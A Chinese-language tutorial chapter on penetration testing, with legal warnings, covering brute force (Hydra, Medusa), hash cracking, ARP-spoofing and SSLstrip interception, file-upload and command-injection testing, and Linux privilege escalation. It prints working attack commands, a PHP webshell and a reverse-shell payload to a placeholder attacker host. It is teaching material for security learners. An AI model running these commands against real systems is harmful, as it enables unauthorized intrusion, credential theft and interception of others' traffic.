

+++
title = "第73章：渗透测试"
weight = 730
date = "2026-03-24T13:18:28+08:00"
type = "docs"
description = ""
isCJKLanguage = true
draft = false
+++


# 第七十三章：渗透测试

> ⚠️ **重要法律警告**：
> 本章节内容仅供**学习和授权测试**使用！
> 
> - **未经授权**对他人系统进行渗透测试属于**违法行为**！
> - 可能违反《网络安全法》、《刑法》等相关法律法规！
> - 请确保在**合法授权**的环境下进行练习！
> - 建议仅在**自己的系统**或**专门搭建的测试环境**中实践！
> 
> **记住**：技术无罪，但滥用技术可能犯罪！

---

## 73.1 暴力破解

暴力破解是使用大量密码尝试登录的方式，"碰运气"。

### Hydra 工具

Hydra 是最流行的暴力破解工具，支持众多协议。

```bash
# 安装
sudo apt install hydra

# 基本语法
hydra -l 用户名 -p 密码 目标 服务

# SSH 暴力破解
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.1

# FTP 暴力破解
hydra -l admin -P passwords.txt ftp://192.168.1.1

# HTTP 表单破解
hydra -l admin -P passwords.txt 192.168.1.1 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"

# 破解多个用户
hydra -L users.txt -P passwords.txt ssh://192.168.1.1
```

### Hydra 常用选项

| 选项 | 说明 |
|------|------|
| -l | 指定用户名 |
| -L | 用户名字典文件 |
| -p | 指定密码 |
| -P | 密码字典文件 |
| -t | 并发线程数 |
| -v | 详细输出 |
| -o | 输出到文件 |

### SSH 破解示例

```bash
# 单用户破解
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100 -V

# 多用户破解
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt \
    -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt \
    ssh://192.168.1.100 -V

# 暂停和恢复
hydra -l root -P passwords.txt ssh://192.168.1.1 -V -s 22
```

### Medusa 工具

```bash
# 安装
sudo apt install medusa

# SSH 破解
medusa -h 192.168.1.1 -u root -P passwords.txt -M ssh

# FTP 破解
medusa -h 192.168.1.1 -u admin -P passwords.txt -M ftp

# 查看支持模块
medusa -d
```

### 密码字典生成

```bash
# Kali 自带字典
ls /usr/share/wordlists/

# 使用 crunch 生成字典
crunch 8 12 abcdefghijklmnopqrstuvwxyz -o passwords.txt

# 参数说明
# crunch 最小长度 最大长度 字符集

# 生成数字密码
crunch 6 6 0123456789 -o pins.txt

# 基于规则生成
crunch 8 8 -t @@^^@@@@ -o wordlist.txt
```

## 73.2 密码破解

### John the Ripper

```bash
# 安装
sudo apt install john

# 基本用法
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# 查看支持的格式
john --list=formats

# 破解 Linux 密码
# /etc/shadow 文件需要 root 权限读取
unshadow /etc/passwd /etc/shadow > combined.txt
john --wordlist=rockyou.txt combined.txt

# 查看已破解的密码
john --show combined.txt
```

### Hashcat

```bash
# 安装
sudo apt install hashcat

# 查看支持的攻击模式
hashcat -h | grep "Attack"

# 查看支持的模式
hashcat --help | grep -i "hash-mode"

# 基本用法
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

# 参数说明
# -m: hash 类型（0=MD5, 1000=NTLM, 100=SHA1, 1400=SHA256）
# -a: 攻击模式（0=字典, 1=组合, 3=暴力）
```

### GPU 加速破解

```bash
# Hashcat 支持 CUDA/ROCm
hashcat -m 0 -a 3 hashes.txt ?a?a?a?a?a?a

# 使用 GPU
hashcat -m 0 -a 0 -d 1 hashes.txt wordlist.txt

# 混合攻击
hashcat -m 0 -a 6 hashes.txt wordlist.txt ?d?d?d
```

## 73.3 中间人攻击

### 什么是中间人攻击？

MITM（Man-in-the-Middle）攻击是攻击者插入到通信双方之间的攻击方式。



### ARP 欺骗

```bash
# 安装 dsniff
sudo apt install dsniff

# 开启 IP 转发
echo 1 > /proc/sys/net/ipv4/ip_forward

# 或永久设置
sudo sysctl -w net.ipv4.ip_forward=1

# ARP 欺骗
sudo arpspoof -i eth0 -t 192.168.1.100 192.168.1.1

# 参数说明
# -i: 网卡
# -t: 目标 IP
# 后面是网关 IP
```

### Ettercap

```bash
# 安装
sudo apt install ettercap-graphical

# 图形界面启动
ettercap -G

# 命令行
sudo ettercap -i eth0 -T -M arp:remote /192.168.1.1// /192.168.1.100//

# 参数说明
# -i: 网卡
# -T: 文本模式
# -M: 攻击模式
```

### SSLstrip

```bash
# 安装
sudo apt install sslstrip

# 先做 ARP 欺骗
sudo arpspoof -i eth0 -t 192.168.1.100 192.168.1.1

# 启动 sslstrip（默认端口 10000）
sslstrip -l 10000

# 配合 iptables 重定向
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000

# 查看日志
tail -f sslstrip.log
```

## 73.4 Web 渗透基础

### OWASP Top 10

OWASP（Open Web Application Security Project）每年发布的 Top 10 是 Web 安全最重要的参考：

| 排名 | 漏洞 |
|------|------|
| 1 | Injection（注入） |
| 2 | Broken Authentication（认证失效） |
| 3 | Sensitive Data Exposure（敏感数据泄露） |
| 4 | XML External Entities（外部实体注入） |
| 5 | Broken Access Control（访问控制失效） |
| 6 | Security Misconfiguration（安全配置错误） |
| 7 | XSS（跨站脚本） |
| 8 | Insecure Deserialization（不安全的反序列化） |
| 9 | Using Components with Known Vulnerabilities（使用有漏洞的组件） |
| 10 | Insufficient Logging & Monitoring（日志不足） |

### 文件上传漏洞

```bash
# 测试步骤
# 1. 上传正常图片，查看返回结果
# 2. 修改文件名绕过（test.php.jpg）
# 3. 修改 Content-Type（image/jpeg → application/x-php）
# 4. 修改文件头（添加 GIF89a）
# 5. 利用 %00 截断（test.php%00.jpg）
# 6. 双写扩展名（test.pphphp）

# 上传 Webshell
# 1. 创建 webshell.php
<?php system($_GET['cmd']); ?>

# 2. 上传并访问
http://target.com/uploads/webshell.php?cmd=whoami

# 3. 获取反向 shell
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/attacker/4444 0>&1'"); ?>
```

### 命令执行漏洞

```bash
# 测试用例
# ; whoami
# | whoami
# & whoami
# `whoami`
# $(whoami)

# 命令注入
# Linux: ping -c 3 127.0.0.1; whoami
# Windows: ping -n 3 127.0.0.1 & whoami

# 防御绕过
# 空格绕过：${IFS}
# 命令替换：$(echo\ test)
# 编码绕过：$(echo d2hvYW1p | base64 -d)
```

## 73.5 权限提升

### 本地提权

```bash
# 1. 查看当前用户
whoami
id

# 2. 查看 sudo 权限
sudo -l

# 3. 查看系统版本
uname -a
cat /etc/issue

# 4. 查看可执行文件的 SUID
find / -perm -4000 2>/dev/null

# 5. 查看开放端口
netstat -tulpn
ss -tulpn

# 6. 查找漏洞
searchsploit linux kernel 5.4
```

### Sudo 提权

```bash
# 查看 sudo 权限
sudo -l

# 常见的可 sudo 执行命令
# vim, less, more, nano, cp, mv, wget, curl, python, perl, ruby, nmap, git, systemctl, systemctl restart apache2

# vim 提权
sudo vim -c ':!/bin/bash'

# less 提权
sudo less /etc/passwd
!/bin/bash

# nmap 提权（旧版本）
sudo nmap --interactive
!sh

# git 提权
sudo git help config
!/bin/bash
```

### 内核漏洞提权

```bash
# 查看内核版本
uname -r
cat /proc/version

# 使用 searchsploit 查找漏洞
searchsploit "Linux Kernel" | grep "3.2.0"

# 常用提权脚本
# LinPEAS: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
# LinEnum: https://github/rebootuser/LinEnum
# linux-exploit-suggester: https://github.com/mzet-/linux-exploit-suggester

# 下载并运行
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

## 本章小结

本章我们学习了渗透测试的基本技术：

| 技术 | 说明 |
|------|------|
| 暴力破解 | Hydra/Medusa 破解登录凭证 |
| 密码破解 | John/Hashcat 离线破解哈希 |
| 中间人攻击 | ARP 欺骗、SSLstrip |
| Web 渗透 | 文件上传、命令注入 |
| 权限提升 | Sudo 提权、内核漏洞 |

渗透测试流程：


---

> ⚠️ **温馨提示**：
> 本章所有内容仅供授权测试和学习使用。未经授权的渗透测试是违法行为，请遵守法律法规！

---

**第七十三章：渗透测试 — 完结！** 🎉

下一章我们将学习"网络安全工具"，掌握 Wireshark、Tcpdump、Netcat 等工具。敬请期待！ 🚀
